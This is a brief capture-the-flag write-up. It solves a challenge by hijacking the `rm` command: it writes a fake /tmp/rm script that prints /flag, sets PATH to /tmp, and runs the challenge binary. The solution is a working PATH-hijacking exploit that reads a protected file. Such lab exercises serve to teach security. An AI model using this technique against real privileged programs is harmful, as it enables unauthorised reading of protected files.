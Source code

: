 ### Challenge

To collect the flag by prevent the flag from being deleted by hijacking the `rm` command

### Thought Process

Firstly I'll have to create a fake `rm` script that reads and prints the flag instead of deleting it. Then I need to put `/tmp` at the beginning of `PATH` so that fake `rm` is found first

### Solution

```bash
~$ echo '#!/bin/bash' > /tmp/rm
~$ echo '/usr/bin/cat /flag' >> /tmp/rm
~$ /usr/bin/chmod +x /tmp/rm
~$ export PATH=/tmp
~$ /challenge/run
```
